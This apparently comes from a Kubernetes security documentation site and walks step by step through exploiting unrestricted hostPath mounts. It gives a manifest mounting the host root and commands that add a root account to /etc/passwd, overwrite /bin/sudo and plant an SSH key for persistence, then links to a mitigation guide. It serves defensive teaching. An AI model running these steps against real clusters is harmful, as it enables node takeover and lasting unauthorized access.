 ```yaml
---
sidebar_position: 14
title: "Unrestricted HostPath Mounts"
description: "How attackers exploit unrestricted hostPath mounts to gain access to the host filesystem and escalate privileges."
---
```


# Unrestricted HostPath Mounts

**hostPath** volumes in Kubernetes allow pods to directly access the host filesystem. If improperly configured, attackers can exploit **unrestricted hostPath mounts** to **access sensitive files, modify system configurations, and escalate privileges**.

---

## Exploitation Steps: Abusing hostPath Mounts

An attacker gains unauthorized access to the **host filesystem** by exploiting a misconfigured **hostPath volume**.

### Step 1: Identify Misconfigured hostPath Volumes

The attacker searches for pods with **hostPath mounts** that expose critical directories:

```bash
kubectl get pods -A -o=jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.volumes[*].hostPath.path}{"\n"}{end}'
```

If a pod is mounting `/etc`, `/var/lib/kubelet`, or `/root`, the attacker proceeds.

### Step 2: Deploy a Malicious Pod with a hostPath Mount

The attacker creates a new pod that mounts a **privileged directory** from the host:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: exploit-hostpath
spec:
  containers:
    - name: attacker-container
      image: alpine
      command: ["/bin/sh", "-c"]
      args: ["sleep 3600"]
      volumeMounts:
        - mountPath: /host
          name: host-root
  volumes:
    - name: host-root
      hostPath:
        path: /
        type: Directory
```

```bash
kubectl apply -f exploit-hostpath.yaml
```

The pod now has **full access to the host filesystem**.

### Step 3: Escalate Privileges

The attacker gains root access by modifying **/etc/passwd**:

```bash
echo "attacker:x:0:0::/root:/bin/bash" >> /host/etc/passwd
```

Or by replacing a system binary with a malicious payload:

```bash
echo '#!/bin/sh\necho "Root access gained"' > /host/bin/sudo
chmod +x /host/bin/sudo
```

### Step 4: Persist in the System

To maintain access, the attacker **creates a backdoor** by modifying the host’s SSH keys:

```bash
echo "attacker-public-key" >> /host/root/.ssh/authorized_keys
```

Even if Kubernetes detects and removes the pod, the attacker retains **persistent access** to the host.

### Result

The attacker now has **root privileges on the host**, allowing them to **exfiltrate data, modify critical system files, and take full control of the Kubernetes node**.

---

## Mitigation Steps

To protect against **unrestricted hostPath mounts**, follow the security best practices outlined in:

➡ **[Restricting HostPath Mounts in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/pod_security/unrestricted_hostpath_mitigation)**

This guide covers techniques such as **disabling hostPath, enforcing PodSecurityAdmission policies, using AppArmor and Seccomp profiles, and restricting privileged containers** to prevent unauthorized access to the host filesystem.
